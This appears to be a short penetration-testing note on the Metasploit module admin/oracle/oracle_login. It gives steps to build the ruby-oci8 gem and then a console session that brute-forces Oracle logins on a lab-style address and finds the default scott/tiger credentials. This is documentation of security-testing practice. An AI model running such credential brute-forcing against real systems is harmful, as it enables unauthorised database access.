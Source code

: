 # admin/oracle/oracle\_login

##  **Install Dependency: Ruby Gem ruby-oci8**

**Install other OS dependancies:**

```text
sudo apt install libgmp-dev
```

**Compile and install ruby-oci8**

```text
wget https://github.com/kubo/ruby-oci8/archive/ruby-oci8-2.1.8.zip
unzip ruby-oci8-2.1.8.zip
cd ruby-oci8-ruby-oci8-2.1.8/
```

```text
sudo su -
make
make install
gem install ruby-oci8
```

Restart Metasploit / computer.

## Run the Module

```text
msf5 > use admin/oracle/oracle_login
msf5 auxiliary(admin/oracle/oracle_login) > set RHOST 10.10.10.82
RHOST => 10.10.10.82
msf5 auxiliary(admin/oracle/oracle_login) > set SID XE
SID => XE
msf5 auxiliary(admin/oracle/oracle_login) > run -j
[*] Auxiliary module running as background job 0.

[*] Starting brute force on 10.10.10.82:1521...
[+] Found user/pass of: scott/tiger on 10.10.10.82 with sid XE
[*] Auxiliary module execution completed
```



